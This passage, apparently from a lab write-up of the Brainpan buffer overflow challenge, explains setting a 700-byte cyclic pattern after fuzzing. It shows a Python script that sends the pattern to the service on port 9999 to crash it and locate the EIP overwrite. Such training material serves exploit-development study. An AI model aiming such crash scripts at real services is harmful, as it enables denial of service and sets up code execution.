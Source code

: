 -l is to set the length of the string, the fuzzing script determined the application crashed at 700 bytes so I set the pattern to 700.

I've updated the script with the string and also removed the while true as we are no longer fuzzing.

```highlight
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1
Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6A
k7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq
2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7
Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
```

Running the script again crashes the application as excepted.

![EIP-Crash](/assets/images/brainpan/EIP-Crash.png)
